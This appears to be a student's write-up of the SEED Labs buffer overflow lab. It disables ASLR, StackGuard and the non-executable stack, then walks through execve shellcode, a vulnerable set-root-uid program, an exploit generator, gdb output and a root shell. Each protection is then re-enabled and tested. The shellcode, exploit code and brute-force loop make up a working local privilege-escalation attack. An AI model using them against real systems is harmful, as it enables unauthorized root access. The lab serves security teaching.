

# SEEDlabs: Buffer Overflow Vulnerability Lab

## 0x00 Lab Overview
Buffer overflow is defined as the condition in which a program attempts to write data beyond the boundaries of pre-allocated fixed length buffers. This vulnerability can be utilized by a malicious user to alter the flow control of the program, even execute arbitrary pieces of code. This vulnerability arises due to the mixing of the storage for data (e.g. buffers) and the storage for controls (e.g. return addresses): an overflow in the data part can affect the control flow of the program, because an overflow can change the return address.

## 0x01 Guidelines
We can load the shellcode into “badfile”, but it will not be executed because our instruction pointer will not be pointing to it. One thing we can do is to change the return address to point to the shellcode. But we have two problems: (1) we do not know where the return address is stored, and (2) we do not know where the shellcode is stored. To answer these questions, we need to understand the stack layout the execution enters a function. The following figure gives an example.


(1) Finding the address of the memory that stores the return address.

From the figure, we know, if we can find out the address of `buffer[]` array, we can calculate where the return address is stored. Since the vulnerable program is a Set-UID program, you can make a copy of this program, and run it with your own privilege; this way you can debug the program (note that you cannot debug a Set-UID program). In the debugger, you can figure out the address of `buffer[]`, and thus calculate the starting point of the malicious code. You can even modify the copied program, and ask the program to directly print out the address of `buffer[]`. The address of `buffer[]` may be slightly different when you run the Set-UID copy, instead of of your copy, but you should be quite close.

If the target program is running remotely, and you may not be able to rely on the debugger to find out the address. However, you can always guess. The following facts make guessing a quite feasible approach:
- Stack usually starts at the same address.
- Stack is usually not very deep: most programs do not push more than a few hundred or a few thousand bytes into the stack at any one time.
- Therefore the range of addresses that we need to guess is actually quite small.

(2) Finding the starting point of the malicious code.

If you can accurately calculate the address of `buffer[]`, you should be able to accurately calcuate the starting point of the malicious code. Even if you cannot accurately calculate the address (for example, for remote programs), you can still guess. To improve the chance of success, we can add a number of NOPs to the beginning of the malcious code; therefore, if we can jump to any of these NOPs, we can eventually get to the malicious code. The following figure depicts the attack.



(4) Storing an long integer in a buffer.

In your exploit program, you might need to store an long integer (4 bytes) into an buffer starting at buffer[i]. Since each buffer space is one byte long, the integer will actually occupy four bytes starting at buffer[i] (i.e., buffer[i] to buffer[i+3]). Because buffer and long are of different types, you cannot directly assign the integer to buffer; instead you can cast the buffer+i into an long pointer, and then assign the integer. The following code shows how to assign an long integer to a buffer starting at buffer[i]:
```c
char buffer[20];
long addr = 0xFFEEDD88;

long *ptr = (long *) (buffer + i);
*ptr = addr;
```

## 0x02 Lab Tasks
### Initial setup

(1) Address Space Randomization.
Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable these features using the following commands:
```sh
sudo sysctl -w kernel.randomize_va_space=0
```

(2) The StackGuard Protection Scheme.
The GCC compiler implements a security mechanism called "Stack Guard" to prevent buffer overflows. In the presence of this protection, buffer overflow will not work. You can disable this protection if you compile the program using the `-fno-stack-protector` switch. For example, to compile a program example.c with Stack Guard disabled, you may use the following command:
```sh
gcc -fno-stack-protector example.c
```

(3) Non-Executable Stack.
Ubuntu used to allow executable stacks, but this has now changed: the binary images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e., they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide whether to make the stack of this running program executable or non-executable. This marking is done automatically by the recent versions of gcc, and by default, the stack is set to be non-executable. To change that, use the following option when compiling programs:
```sh
gcc -z execstack -o test test.c

gcc -z noexecstack -o test test.c
```

### Shellcode
Before you start the attack, you need a shellcode. A shellcode is the code to launch a shell. It has to be loaded into the memory so that we can force the vulnerable program to jump to it. Consider the following program:
```c
#include<stdio.h>

int main()
{
    char *name[2];

    name[0] = '/bin/sh';
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```
The shellcode that we use is just the assembly version of the above program. The following program shows you how to launch a shell by executing a shellcode stored in a buffer. Please compile and run the following code, and see whether a shell is invoked.
```c
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
}
```
Please use the following command to compile the code (don't forget the `execstack` option):
```sh
gcc -z execstack -o call_shellcode call_shellcode.c
```
A few places in this shellcode are worth mentioning. First, the third instruction pushes "//sh", rather than "/sh" into the stack. This is because we need a 32-bit number here, and "/sh" has only 24 bits. Fortunately, "//" is equivalent to "/", so we can get away with a double slash symbol. Second, before calling the `execve()` system call, we need to store `name[0]` (the address of the string), `name` (the address of the array), and `NULL` to the `%ebx`, `%ecx`, and `%edx` registers, respectively. Line 5 stores `name[0]` to `%ebx`; Line 8 stores `name` to `%ecx`; Line 9 sets `%edx` to zero. There are other ways to set `%edx` to zero (e.g., `xorl %edx, %edx`); the one (`cdq`) used here is simply a shorter instruction: it copies the sign (bit 31) of the value in the EAX register (which is 0 at this point) into every bit position in the EDX register, basically setting `%edx` to 0. Third, the system call `execve()` is called when we set `%al` to 11, and execute "int $0x80".

### The Vulnerable Program
```c
/* stack.c */

/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[12];

    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}
```
Compile the above vulnerable program and make it set-root-uid. You can achieve this by compiling it in the `root` account, and `chmod` the executable to `4755` (don’t forget to include the `execstack` and `-fno-stack-protector` options to turn off the non-executable stack and StackGuard protections):
```sh
gcc -o stack -z execstack -fno-stack-protector stack.c
chmod 4755 stack
```
The above program has a buffer overflow vulnerability. It first reads an input from a file called "badfile", and then passes this input to another buffer in the function `bof()`. The original input can have a maximum length of 517 bytes, but the buffer in `bof()` has only 12 bytes long. Because `strcpy()` does not check boundaries, buffer overflow will occur. Since this program is a set-root-uid program, if a normal user can exploit this buffer overflow vulnerability, the normal user might be able to get a root shell. It should be noted that the program gets its input from a file called "badfile". This file is under users’ control. Now, our objective is to create the contents for "badfile", such that when the vulnerable program copies the contents into its buffer, a root shell can be spawned.

### Task 1: Exploiting the Vulnerability
We provide you with a partially completed exploit code called "exploit.c". The goal of this code is to construct contents for "badfile". In the code, the shellcode is given to you. You need to develop the rest.
```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    /* strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??"); */
    /*strcpy(buffer+100,shellcode); */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

To beginnig the attack, we need the address of shellcode.
```sh
seed@ubuntu:~/Desktop$ gdb --quiet stack
Reading symbols from /home/seed/Desktop/stack...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484a3 <+0>:	    push   %ebp
   0x080484a4 <+1>:	    mov    %esp,%ebp
   0x080484a6 <+3>:	    and    $0xfffffff0,%esp
   0x080484a9 <+6>:	    sub    $0x220,%esp
   0x080484af <+12>:	mov    $0x80485f0,%edx
   0x080484b4 <+17>:	mov    $0x80485f2,%eax
   0x080484b9 <+22>:	mov    %edx,0x4(%esp)
   0x080484bd <+26>:	mov    %eax,(%esp)
   0x080484c0 <+29>:	call   0x80483c0 <fopen@plt>
   0x080484c5 <+34>:	mov    %eax,0x21c(%esp)
   0x080484cc <+41>:	lea    0x17(%esp),%eax
   0x080484d0 <+45>:	mov    0x21c(%esp),%edx
   0x080484d7 <+52>:	mov    %edx,0xc(%esp)
   0x080484db <+56>:	movl   $0x205,0x8(%esp)
   0x080484e3 <+64>:	movl   $0x1,0x4(%esp)
   0x080484eb <+72>:	mov    %eax,(%esp)
   0x080484ee <+75>:	call   0x8048370 <fread@plt>
   0x080484f3 <+80>:	lea    0x17(%esp),%eax
   0x080484f7 <+84>:	mov    %eax,(%esp)
   0x080484fa <+87>:	call   0x8048484 <bof>
   0x080484ff <+92>:	movl   $0x80485fa,(%esp)
   0x08048506 <+99>:	call   0x8048390 <puts@plt>
   0x0804850b <+104>:	mov    $0x1,%eax
   0x08048510 <+109>:	leave  
   0x08048511 <+110>:	ret    
End of assembler dump.
(gdb) b *0x080484af
Breakpoint 1 at 0x80484af
(gdb) r
Starting program: /home/seed/Desktop/stack

Breakpoint 1, 0x080484af in main ()
(gdb) i r $esp
esp            0xbffff150	0xbffff150
```
We know `esp`'s value is the beginning address of `str`, according to `strcpy(buffer+100,shellcode);`, we can calculate shellcode's address is 0xbffff150(HEX)+100(DEC)=0xbffff1b4(HEX). We replace `\x??\x??\x??\x??` to `\xb4\xf1\xff\xbf`, because when buffer overflow happened this place's return address will be overwrite.

After we finish the above program, compile and run it. This will generate the contents for "badfile". Then run the vulnerable program stack. If our exploit is implemented correctly, we should be able to get a root shell.
```sh
[08/10/2016 05:56] seed@ubuntu:~/Desktop$ ./exploit
[08/10/2016 05:56] seed@ubuntu:~/Desktop$ ./stack
# whoami
root
```

Many commands will behave differently if they are executed as Set-UID root processes, instead of just as root processes, because they recognize that the real user id is not root. To solve this problem, you can run the following program to turn the real user id to root. This way, you will have a real root process, which is more powerful.
```c
void main()
{
    setuid(0); system("/bin/sh");
}
```

### Task 2: Address Randomization
Now, we turn on the Ubuntu’s address randomization. We run the same attack developed in Task 1. Can you get a shell? If not, what is the problem? How does the address randomization make your attacks difficult?
```sh
sudo sysctl -w kernel.randomize_va_space=2
```
If running the vulnerable code once does not get you the root shell, how about running it for many times? You can run `./stack` in the following loop , and see what will happen. If your exploit program is designed properly, you should be able to get the root shell after a while. You can modify your exploit program to increase the probability of success (i.e., reduce the time that you have to wait).
```sh
seed@ubuntu:~/Desktop$ sh -c "while [ 1 ]; do ./stack; done;"
# whoami
root
```

### Task 3: Stack Guard
Before working on this task, remember to turn off the address randomization first, or you will not know which protection helps achieve the protection.

In our previous tasks, we disabled the “Stack Guard” protection mechanism in GCC when compiling the programs. In this task, you may consider repeating task 1 in the presence of Stack Guard.  To do that, you should compile the program without the `-fno-stack-protector` option. For this task, you will recompile the vulnerable program, stack.c, to use GCC’s Stack Guard, execute task 1 again.
```sh
root@ubuntu:/home/seed/Desktop# sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
root@ubuntu:/home/seed/Desktop# gcc -o stack stack.c
root@ubuntu:/home/seed/Desktop# chmod u+s stack
root@ubuntu:/home/seed/Desktop# exit
exit
seed@ubuntu:~/Desktop$ ./stack
*** stack smashing detected ***: ./stack terminated
Segmentation fault (core dumped)
```

### Task 4: Non-executable Stack
Before working on this task, remember to turn off the address randomization first, or you will not know which protection helps achieve the protection.

In our previous tasks, we intentionally make stacks executable. In this task, we recompile our vulnerable program using the `noexecstack` option, and repeat the attack in Task 1. Can you get a shell? If not, what is the problem? How does this protection scheme make your attacks difficult. You can use the following instructions to turn on the `non-executable` stack protection.
```sh
gcc -o stack -fno-stack-protector -z noexecstack stack.c
```
It should be noted that non-executable stack only makes it impossible to run shellcode on the stack, but it does not prevent buffer-overflow attacks, because there are other ways to run malicious code after exploiting a buffer-overflow vulnerability. The `return-to-libc` attack is an example.
```sh
root@ubuntu:/home/seed/Desktop# sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
root@ubuntu:/home/seed/Desktop# gcc -o stack -z noexecstack -fno-stack-protector stack.c
root@ubuntu:/home/seed/Desktop# chmod u+s stack
root@ubuntu:/home/seed/Desktop# exit
exit
seed@ubuntu:~/Desktop$ ./stack
Segmentation fault (core dumped)
```
